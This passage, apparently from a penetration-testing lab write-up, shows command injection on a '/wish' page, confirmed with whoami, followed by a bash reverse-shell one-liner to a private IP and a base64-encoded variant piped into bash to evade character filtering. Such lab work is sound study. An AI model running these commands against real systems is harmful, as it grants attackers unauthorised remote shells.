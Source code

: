 /wish page

This page hints onto possible command injection.

![](media/5dc8d1e5c69b49d5cb0d994ffdb3364c.png)

Attempting command injection by typing whoami and pressing Submit.

![](media/959326f2c2ecc9723480113c200cc4a0.png)

As can be seen whoami is executed correctly and the current user (www-data) is
displayed in the url.

Low Privilege Exploitation (Nitish)
-----------------------------------

Next, bash reverse one liner from pentestmonkey’s blog can be used to get
reverse shell. (It took a bit of trial and error to see which characters and
commands were being escaped). The shell needed to be encoded with base64 then
decoded with base64 and piped into bash.

![](media/d0909dff79983f3350a2c30561877c22.png)

Original Reverse Shell:

bash -i \>& /dev/tcp/192.168.211.146/443 0\>&1

Encoded Reverse Shell:

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d
\| bash

### Catching & Upgrading Reverse Shell
